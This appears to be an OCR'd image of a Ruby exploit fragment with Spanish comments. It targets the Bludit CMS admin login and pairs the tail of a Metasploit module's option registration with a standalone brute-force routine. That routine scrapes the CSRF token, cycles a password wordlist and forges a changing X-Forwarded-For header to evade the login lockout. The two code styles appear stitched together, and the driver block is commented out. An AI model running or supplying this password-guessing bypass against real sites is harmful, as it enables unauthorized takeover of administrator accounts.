 ```ruby
      'DefaultTarget'  => 0))
      
   register_options(
    [
      OptString.new('TARGETURI', [true, 'La ruta base para Bludit', '/']),
      OptString.new('BLUDITUSER', [true, 'El nombre de usuario para Bludit']),
      OptPath.new('PASSWORDS', [ true, 'La lista de contraseñas',
        File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
    ])
  end
  
  # -- Código de Exploit -- #
  # Solución sucia para eliminar esta advertencia:
  # Cookie#domain ahora devuelve un nombre de dominio sin punto. Usa Cookie#dot_domain si necesitas "." al principio.
  # Ver https://github.com/nahi/httpclient/issues/252
class WebAgent
  class Cookie < HTTP::Cookie
    def domain
      self.original_domain
    end
  end
end

def get_csrf(client, login_url)
  res = client.get(login_url)
  csrf_token = /input.+?name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures[0]
end

def auth_ok?(res)
  HTTP::Status.redirect?(res.code) &&
    %r{/admin/dashboard}.match?(res.headers['Location'])
end

def bruteforce_auth(client, host, username, wordlist)
  login_url = host + '/admin/login'
  File.foreach(wordlist).with_index do |password, i|
    password = password.chomp
    csrf_token = get_csrf(client, login_url)
    headers = {
      'X-Forwarded-For' => "#{i}-#{password[..4]}",
    }
    data = {
      'tokenCSRF' => csrf_token,
      'username' => username,
      'password' => password,
    }
    puts "[*] Intentando la contraseña: #{password}"
    auth_res = client.post(login_url, data, headers)
    if auth_ok?(auth_res)
      puts "\n[+] Contraseña encontrada: #{password}"
      break
    end
  end
end

#begin
#  args = Docopt.docopt(doc)
#  pp args if args['--debug']
#
#  clnt = HTTPClient.new
#  bruteforce_auth(clnt, args['--root-url'], args['--user'], args['--#wordlist'])
#rescue Docopt::Exit => e
```